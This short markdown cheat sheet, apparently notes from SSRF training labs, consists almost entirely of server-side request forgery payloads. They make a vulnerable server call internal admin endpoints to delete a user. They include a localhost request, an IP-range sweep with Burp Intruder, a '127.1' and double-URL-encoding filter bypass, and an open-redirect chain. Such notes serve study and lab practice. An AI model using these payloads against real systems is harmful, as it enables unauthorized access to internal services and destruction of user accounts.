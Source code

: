 # Server-side request forgery (SSRF) attacks

```bash
stockApi=http://localhost/admin/delete?username=carlos
```

Usar Intruder (Burp) para atacar un rango de IPs
```bash
http://192.168.0.171:8080/admin/delete?username=carlos
```

```bash
stockApi=http://127.1/admin
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

```bash
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
